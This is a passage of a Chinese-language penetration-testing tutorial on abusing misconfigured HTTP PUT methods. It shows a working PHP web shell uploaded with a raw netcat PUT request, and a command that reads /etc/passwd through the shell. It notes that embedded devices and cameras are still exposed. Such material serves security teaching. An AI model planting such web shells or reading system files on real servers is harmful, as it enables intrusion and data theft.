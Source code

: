 而且，我们甚至可以读取系统文件。

```
victim.site/shell.php?cmd=cat /etc/passwd

root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```

请记住，PUT 要求我们传递内容长度。所以我们必须知道shell大小：

```
wc -m shell.php
136 shell.php
```
然后我们可以构建一个有效的 PUT 请求。

```
nc victim.site 80
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 136

<?php
if (isset($_GET['cmd']))
{
    $cmd = $_GET['cmd'];
    echo '<pre>';
    $result = shell_exec($cmd);
    echo $result;
    echo '</pre>';
}
?>
```

## Conclusions
错误配置的 HTTP 动词在 Web 服务器中变得越来越少。这是因为 Web 技术的发展和更好的默认配置文件。
另一方面，您仍然可以在**嵌入式设备、IP 摄像机、数字视频录像机**和其他“智能”设备中发现很多配置错误的 HTTP 方法。